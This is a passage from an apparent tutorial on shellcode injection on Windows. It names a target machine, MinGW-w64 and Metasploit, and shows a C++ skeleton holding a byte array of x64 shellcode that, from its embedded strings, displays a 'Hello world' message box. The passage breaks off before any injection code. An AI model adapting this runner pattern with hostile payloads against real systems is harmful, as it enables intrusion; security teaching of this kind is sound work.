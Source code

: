 What you'll need in order to follow the steps of this guide is an **x64 Windows** machine, a compiler such as **MinGW-w64** and the **metasploit framework**!

The Windows machine is going to be our target. MinGW-w64 will help us compile our code to run on Windows, and the metasploit framework will help us generating a **shellcode** to inject!

## Application (message box)

First, create a .cpp file. I'll call mine `main.cpp`.

Include the only two libraries we'll need: `Windows.h` (for Windows API) and `stdio.h`. Your code should look something like this:

```C++
#include <stdio.h>
#include <Windows.h>

int main(){
	return 0;
}
```

### Shellcode

Now we need to define an array for our shellcode. For the first test, I'll just be using a simple messagebox saying Hello World. You can use it too!

```C++
#include <stdio.h>
#include <Windows.h>

int main(){
	unsigned char shellcode[] = 
		"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
		"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
		"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
		"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
		"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
		"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
		"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
		"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
		"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
		"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
		"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
		"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
		"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
		"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
		"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
		"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x3e\x48"
		"\x8d\x8d\x26\x01\x00\x00\x41\xba\x4c\x77\x26\x07\xff\xd5"
		"\x49\xc7\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x0e\x01\x00"
		"\x00\x3e\x4c\x8d\x85\x1b\x01\x00\x00\x48\x31\xc9\x41\xba"
		"\x45\x83\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2"
		"\x56\xff\xd5\x48\x65\x6c\x6c\x6f\x20\x77\x6f\x72\x6c\x64"
		"\x21\x00\x4d\x65\x73\x73\x61\x67\x65\x42\x6f\x78\x00\x75"
		"\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00";
		
	return 0;
}
```
